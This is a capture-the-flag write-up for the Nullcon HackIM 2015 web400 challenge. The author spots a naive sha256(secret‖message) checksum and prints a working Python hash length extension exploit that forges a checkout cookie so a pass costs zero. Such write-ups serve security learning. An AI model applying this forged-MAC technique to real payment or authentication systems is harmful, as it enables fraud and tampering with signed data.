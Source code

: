 For me this challenge was quite easy.

The description we were given was this one:
```
Buy Nullcon Pass For Free. 
```
Then I opened [nullcon.html](http://54.165.191.231/nullcon.html) and got this page:

![web400 index](http://saxx.swordarmor.fr/CTF/HACKIM_web400_index.png "web400 index")

The purpose here is to buy a Pass for 0 rupee.

When we tried to buy it we got this error:

![web400 checkout](http://saxx.swordarmor.fr/CTF/HACKIM_web400_checkout.png "web400 checkout")

If we looked at the main source page, we see that "hint": 

```html
<!-- 
    if( $checksum === hash("sha256",$secretkey . $msg))   // secretkey is XXXXXXXXXXXXXXXXXXX    :-P
    {
      // Success; :)
    }
  ?> 
-->
```
This sounds to me like hash length extension attack.
<br>
You will find an incredible explanation of what [hash length extension attack is](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) by visiting this article.

Here is my python exploit:

```python
#!/usr/bin/python

__author__ = '@_SaxX_'
__file__ = 'hashlength'

import hlextend, requests

url 				      = "http://54.165.191.231/checkout.php"
hashextender 		  = "/home/saxx/SECU/hash_extender/hash_extender"
defaultcookie 		= "Nullcon2015|corporate|10999"
defaulthashvalue 	= "568fe78b29ac377a58ae1fbf02b4d1a158e605b3897916227e4b3ecfc78973db"
newcookie2append 	= "|0"
theHash 			    = "sha256"
secretkeylen      = 19 #by bruteforcing
sha = hlextend.new(theHash)
data = sha.extend(newcookie2append, defaultcookie, secretkeylen, defaulthashvalue)
payload = { "msg": data.replace('\\x','%'), "checksum": sha.hexdigest() }
print requests.post(url, payload).text
```

And then the result of the execution:

![web400 flag](http://saxx.swordarmor.fr/CTF/HACKIM_web400_flag.png "web400 flag")

Hence, the flag was **flag{fl@g_*2o15}}** to score easily 400 more points.

Enjoy :)
